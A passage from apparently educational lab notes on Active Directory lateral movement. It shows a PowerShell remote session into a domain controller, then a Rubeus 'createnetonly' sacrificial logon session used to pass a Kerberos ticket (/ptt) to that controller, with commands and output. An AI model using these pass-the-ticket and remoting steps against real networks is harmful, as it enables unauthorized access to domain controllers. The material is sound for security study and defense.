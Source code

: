 Now we can spawn a PS session in the target host:

```powershell
c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```

This is used for ===Lateral Movement===.

### 5.2 Using Rubeus (No Admin privileges required)

Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

#### Step 1: Create a Sacrificial Process

```batch
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3


[*] Action: Create process (/netonly)


[*] Using random username and password.

[*] Showing process : True
[*] Username        : JMI8CL7C
[*] Domain          : DTCDV6VL
[*] Password        : MRWI6XGI
[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1556
[+] LUID            : 0xe07648
```

That will spawn a new cmd window through which we can request a new TGT with `/ptt` using `Rubeus`, import it to our new session and then connect to that target DC using PSRemoting.

